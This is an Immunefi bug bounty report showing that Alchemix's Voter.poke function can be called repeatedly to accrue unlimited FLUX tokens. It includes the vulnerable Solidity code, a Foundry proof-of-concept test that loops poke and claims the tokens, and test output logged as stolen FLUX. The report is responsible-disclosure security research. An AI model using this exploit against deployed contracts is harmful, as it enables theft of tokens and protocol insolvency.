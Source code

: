 
# veALCX holder can mint Unlimited FLUX tokens

Submitted on Sun May 19 2024 15:51:12 GMT-0400 (Atlantic Standard Time) by @OxAnmol for [Boost | Alchemix](https://immunefi.com/bounty/alchemix-boost/)

Report ID: #31461

Report type: Smart Contract

Target: https://github.com/alchemix-finance/alchemix-v2-dao/blob/main/src/FluxToken.sol

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
`Voter:poke` function can be called multiple times by the veALCX holder and mint unlimited flux.

## Vulnerability Details
The `Voter:poke` function is used to vote again with the same weights, effectively renewing the previous vote.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

```solidity
    function poke(uint256 _tokenId) public {
        // Previous boost will be taken into account with weights being pulled from the votes mapping
        uint256 _boost = 0;

        if (msg.sender != admin) {
            require(IVotingEscrow(veALCX).isApprovedOrOwner(msg.sender, _tokenId), "not approved or owner");
        }

        address[] memory _poolVote = poolVote[_tokenId];
        uint256 _poolCnt = _poolVote.length;
        uint256[] memory _weights = new uint256[](_poolCnt);

        for (uint256 i = 0; i < _poolCnt; i++) {
            _weights[i] = votes[_tokenId][_poolVote[i]];
        }

        _vote(_tokenId, _poolVote, _weights, _boost);
    }
```
It internally calls _vote functions which is responsible for voting by looping though the provided gauge addresses and it also accrues the flux token for voters by calling Flux:accrueFlux.

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L412C4-L455C6

```solidity
function _vote(uint256 _tokenId, address[] memory _poolVote, uint256[] memory _weights, uint256 _boost) internal {
       ...SNIP...
       //@audit if we call from poke the we can accrue unlimited FLUX
        IFluxToken(FLUX).accrueFlux(_tokenId);
        uint256 totalPower = (IVotingEscrow(veALCX).balanceOfToken(_tokenId) + _boost);

        for (uint256 i = 0; i < _poolCnt; i++) {
            address _pool = _poolVote[i];
            address _gauge = gauges[_pool];

            require(isAlive[_gauge], "cannot vote for dead gauge");

            uint256 _poolWeight = (_weights[i] * totalPower) / _totalVoteWeight;
            require(votes[_tokenId][_pool] == 0, "already voted for pool");
            require(_poolWeight != 0, "cannot vote with zero weight");
            _updateFor(_gauge);

            poolVote[_tokenId].push(_pool);

            weights[_pool] += _poolWeight;
            votes[_tokenId][_pool] += _poolWeight;
            IBribe(bribes[_gauge]).deposit(uint256(_poolWeight), _tokenId);
            _totalWeight += _poolWeight;
            emit Voted(msg.sender, _pool, _tokenId, _poolWeight);
        }

        if (_totalWeight > 0) IVotingEscrow(veALCX).voting(_tokenId);
        totalWeight += uint256(_totalWeight);
        usedWeights[_tokenId] = uint256(_totalWeight);
        lastVoted[_tokenId] = block.timestamp;

        // Update flux balance of token if boost was used
        if (_boost > 0) {
            IFluxToken(FLUX).updateFlux(_tokenId, _boost);
        }
    }
   ```

If a user has locked their BPT but has never voted, they can call the `poke` function. This function attempts to renew the user's voting, but because the user never voted in the first place there is nothing to renew, it only accrues the flux for the user. The user can call this `poke` function as often as they want to accumulate unlimited flux.

## Impact Details
Users can mint an unlimited amount of FLUX, which could potentially devalue the currency and undermine the logic for boosting and early unlocks.

The FLUX token is a vital component of the system and is expected to hold some tangible value in the open market. Unlimited minting could potentially disrupt its tokenomics and make the protocol's DAO insolvent.

Imagine if such an attack occurs one year after the protocol launch. Users holding millions of dollars worth of FLUX could lose everything due to a price surge.

Based on above stated reason I believe this to be a critical issue.

## References
https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/Voter.sol#L195C3-L212C6

https://github.com/alchemix-finance/alchemix-v2-dao/blob/f1007439ad3a32e412468c4c42f62f676822dc1f/src/FluxToken.sol#L188C3-L192C6
        
## Proof of concept
## Proof of Concept

Here is a simple test to show how veALCX holder can call `Voter::poke` many times and accrue unlimited flux.

paste the test in `FluxTokenTest.t.sol` and run it. 

```solidity
function testMintUnlimitedFLux() external {
        uint256 tokenId = createVeAlcx(admin, TOKEN_1, veALCX.MAXTIME(), true);
        //Within the same epoch call poke function as many times as you want to earn unlimited flux
        hevm.startPrank(admin);
        // For example for are doing only 100 iterations
        for (uint256 i = 0; i < 100; i++) {
            voter.poke(tokenId);
        }
        uint256 claimableFluxAfterPoke = flux.getUnclaimedFlux(tokenId);
        flux.claimFlux(tokenId, claimableFluxAfterPoke);
        console2.log("Flux Stolen: ", flux.balanceOf(admin));
        vm.stopPrank();
    }
```

## Output
Here you can see `98.839805301052500300` FLUX is stolen just by calling the   `poke` function 100 times. 

```bash
Ran 1 test for src/test/FluxToken.t.sol:FluxTokenTest
[PASS] testMintUnlimitedFLux() (gas: 2867107)
Logs:
  Flux Stolen:  98839805301052500300

Suite result: ok. 1 passed; 0 failed; 0 skipped; finished in 93.06s (65.30s CPU time)

Ran 1 test suite in 93.95s (93.06s CPU time): 1 tests passed, 0 failed, 0 skipped (1 total tests)

```
